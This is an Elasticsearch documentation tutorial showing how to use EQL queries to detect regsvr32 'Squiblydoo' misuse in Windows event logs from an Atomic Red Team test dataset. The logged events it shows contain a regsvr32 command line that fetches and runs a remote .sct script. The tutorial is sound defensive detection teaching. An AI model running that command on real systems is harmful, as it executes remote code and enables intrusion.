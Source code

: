 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

experimental::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1218/010/[`regsvr32` misuse] in Windows event
logs. `regsvr32` misuse is a known adversary technique documented in the
https://attack.mitre.org[MITRE ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for `regsvr32` misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to use fields from the {ecs-ref}[Elastic Common
Schema (ECS)], including the `@timestamp` and `event.category` fields. The
dataset includes events that imitate behaviors related to `regsvr32` misuse, as
documented by MITRE ATT&CK®.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into `my-index-000001` with the following <<docs-bulk,bulk
API>> request:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-index-000001/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the data was successfully
indexed.
+
[source,console]
----
GET /_cat/indices/my-index-000001?v&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]
+
The API response should show a `docs.count` value of `150`, indicating 150
documents were indexed.
+
[source,txt]
----
health status index            docs.count
yellow open   my-index-000001         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32` events

Since you're looking for `regsvr32` misuse, start by getting a count of any
events associated with a `regsvr32.exe` process.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /my-index-000001/_eql/search?filter_path=-hits.events   <1>
{
  "query": """
    any where process.name == "regsvr32.exe"                <2>
  """,
  "size": 200                                               <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 200 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Based on your previous query, you know `regsvr32` processes were associated with
143 events. But how was `regsvr32.exe` first called? And who called it?

`regsvr32` is a command-line utility so it may help to narrow your results to
processes where the command line was used.

Update the previous EQL query as follows:

* Change the `any` keyword to `process`. This limits matches to events with an
`event.category` of `process`.
* Add the `and process.command_line != null` condition to match only
events with a command line value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line != null
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one process event. The event has an `event.type` of
`creation`, indicating the start of a `regsvr32.exe` process.

Based on the `process.command_line` value, `regsvr32.exe` used `scrobj.dll` to
register a script, `RegSvr32.sct`. This fits the behavior of a
https://attack.mitre.org/techniques/T1218/010/["Squiblydoo" attack], a known
variant of `regsvr32` misuse.

The query also retrieved other valuable information about how the `regsvr32.exe`
process started, such as the `@timestamp`, the associated `user.id`, and the
`process.parent.name`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that a `regsvr32.exe` process was used to register a potentially
malicious script, `RegSvr32.sct`. Next, see if `regsvr32.exe` later loads the
`scrob.dll` library.

Modify the previous EQL query as follows:

* Change the `process` keyword to `library`.
* Replace the `process.command_line != null` condition with
`dll.name == "scrobj.dll`.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    library where process.name == "regsvr32.exe" and dll.name == "scrobj.dll"
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "@timestamp": 131883573237450016,
          "dll": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "event": {
            "category": "library"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to connect to remote servers or
download other files. If this occurred, the attack might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` library by the same process
. Any network event by the same process, which could indicate the download of a
remote file

To match, each event in the sequence must share the same process ID, recorded in
the `process.pid` field.

Based on the command line value seen in the previous result, you can expect to
find a match. However, the sequence query isn't designed for that specific
command. Instead, it looks for a pattern of suspicious behavior while still
being generic enough to detect similar threats in the future.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == 'regsvr32.exe']
      [library where dll.name == 'scrobj.dll']
      [network where true]
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          "2012"
        ],
        "events": [
          {
            "_index": "my-index-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 3,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 5,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573237450016,
              "dll": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "event": {
                "category": "library"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_version": 1,
            "_seq_no": 24,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573238680000,
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              },
              "network": {
                "protocol": "tcp",
                "direction": "outbound"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_seq_no": 3/"_seq_no": $body.hits.sequences.0.events.0._seq_no/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_seq_no": 5/"_seq_no": $body.hits.sequences.0.events.1._seq_no/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
// TESTRESPONSE[s/"_seq_no": 24/"_seq_no": $body.hits.sequences.0.events.2._seq_no/]
